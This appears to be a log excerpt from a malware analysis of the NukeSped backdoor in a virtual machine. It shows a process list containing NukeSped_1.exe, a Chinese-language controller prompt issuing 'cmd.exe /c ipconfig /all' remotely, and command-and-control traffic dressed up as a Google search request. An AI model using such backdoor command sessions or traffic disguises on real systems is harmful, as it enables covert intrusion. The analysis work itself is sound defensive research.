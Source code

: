 ```plain
svchost.exe                   1136 Services                   0     13,068 K
VGAuthService.exe             1300 Services                   0      5,396 K
taskhost.exe                  1384 Console                    1      9,516 K
vm3dservice.exe               1468 Services                   0      3,720 K
vmtoolsd.exe                  1500 Services                   0     17,220 K
dwm.exe                       1512 Console                    1     66,216 K
vm3dservice.exe               1520 Console                    1      4,704 K
explorer.exe                  1552 Console                    1     71,684 K
svchost.exe                   1956 Services                   0      4,432 K
vmtoolsd.exe                  1220 Console                    1     26,444 K
WmiPrvSE.exe                  1832 Services                   0     18,108 K
dllhost.exe                   1636 Services                   0      9,500 K
msdtc.exe                     2236 Services                   0      6,096 K
SearchIndexer.exe             2528 Services                   0     38,948 K
svchost.exe                   2420 Services                   0     17,248 K
svchost.exe                   1040 Services                   0     35,604 K
ProcessHacker.exe             3452 Console                    1     31,608 K
taskhost.exe                  3616 Console                    1     16,824 K
iFlyInput.exe                  292 Console                    1     48,404 K
iFlyPlatform.exe              1284 Console                    1     13,888 K
NukeSped_1.exe                2156 Console                    1      4,920 K
cmd.exe                       1360 Console                    1      3,216 K
conhost.exe                   3440 Console                    1      8,996 K
tasklist.exe                  2852 Console                    1      6,536 K

33 指令 - 请输入需执行的命令：quit-返回上层指令
>cmd.exe /c ipconfig /all
HTTP/1.1 200 OK
Content-Type: text/html
Sec-Fetch-Mode: 33
Content-Length: 25


GET http://www.google.com/search?q&cp=0&xssi=t&hl=en&authuser=1&nolsbt=1&dpr=1 HTTP/1.1
Sec-Fetch-Mode: 30
Content-Length: 00002322
Connection: keep-alive



Windows IP 配置

   主机名  . . . . . . . . . . . . . : WIN-JMKXXXXXOT
   主 DNS 后缀 . . . . . . . . . . . :
   节点类型  . . . . . . . . . . . . : 混合
   IP 路由已启用 . . . . . . . . . . : 否
   WINS 代理已启用 . . . . . . . . . : 否
   DNS 后缀搜索列表  . . . . . . . . : localdomain

以太网适配器 Bluetooth 网络连接：

   媒体状态  . . . . . . . . . . . . : 媒体已断开
   连接特定的 DNS 后缀 . . . . . . . :
   描述。. . . . . . . . . . . . . . : Bluetooth 设备 (个人区域网)
   物理地址。. . . . . . . . . . . . : 34-XX-XX-XX-58-A2
   DHCP 已启用 . . . . . . . . . . . : 是
   自动配置已启用。. . . . . . . . . : 是

以太网适配器 本地连接：

   连接特定的 DNS 后缀 . . . . . . . : localdomain
   描述。. . . . . . . . . . . . . . : Intel(R) PRO/1000 MT Network Connection
   物理地址。. . . . . . . . . . . . : 00-0C-XX-XX-2F-B1
```